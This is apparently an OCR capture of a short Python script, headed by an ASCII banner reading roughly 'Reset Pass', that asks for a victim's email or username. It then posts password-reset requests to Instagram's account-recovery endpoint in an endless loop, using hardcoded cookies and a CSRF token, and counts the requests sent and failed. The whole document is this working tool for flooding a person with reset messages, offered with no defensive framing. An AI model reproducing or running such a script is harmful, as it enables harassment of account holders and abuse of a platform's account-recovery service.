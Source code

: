 import requests
import time

print('''
  _                _     _              
 |   \              | |   |   \             
 | |__) |___  _  ___| |_  | |__) |_ _ _ ___ 
 |  _  // _ \/ __|/ _ \ __| |  ___/ _` / __/ __|
 | | \ \  /\ \  / |_  | |  | (_| \ \__ \  
 |_|  \_\___||___/\___|\__| |_|   \__,_|___/___/                                                
''')

done = 0
err = 0

slee = input('[ + ] Enter Sleep [ ORIGINAL IS 1 ]: ')
email = input('[ + ] Enter Email Or Username: ')

while 1 < 2:
    url = 'https://www.instagram.com/accounts/account_recovery_send_ajax/'
    headers = {
        'accept': '*/*',
        'accept-encoding': 'gzip, deflate, br',
        'accept-language': 'en-US,en;q=0.9',
        'content-length': '101',
        'content-type': 'application/x-www-form-urlencoded',
        'cookie': 'ig_cb=2;ig_did=EA19AF2AD215-4891-ACA7-A8D1D255B13B;csrftoken=G7aKrsENKNoMigBkDxMDHmq5RtWyfepk;mid=YEfl9gAEAAGKGI_cAK6aUnBcC9Cn',
        'origin': 'https://www.instagram.com',
        'referer': 'https://www.instagram.com/accounts/password/reset/',
        'sec-fetch-dest': 'empty',
        'sec-fetch-mode': 'cors',
        'sec-fetch-site': 'same-origin',
        'user-agent': ': Mozilla/5.0(Windows NT 6.3; Win64;x64) AppleWebKit/537.36(KHTML, like Gecko) Chrome/88.0.4324.190 Safari/537.36',
        'x-csrftoken': 'G7aKrsENKNoMigBkDxMDHmq5RtWyfepk',
        'x-ig-app-id': '936619743392459',
        'x-ig-www-claim': '',
        'x-instagram-ajax': '',
        'x-requested-with': 'XMLHttpRequest',
    }
    data = {
        'email_or_username': f'{email}',
        'recaptcha_challenge_field': '',
        'flow': '',
        'app_id': '',
        'source_account_id': ''
    }
    time.sleep(int(slee))
    r = requests.post(url, headers=headers, data=data)
    if r.status_code == 200:
        done += 1
        print(f"\r[ + ] Sent: {done} , [x]  Error: {err}", end="")
    else:
       err += 1
       print(f"\r[ + ] Sent: {done} , [x]  Error: {err}", end="")
    if err == 5:
        print('\n[ x ] There is alot of errors , try again after 10 minutes')
        input('Press any key to exit: ')
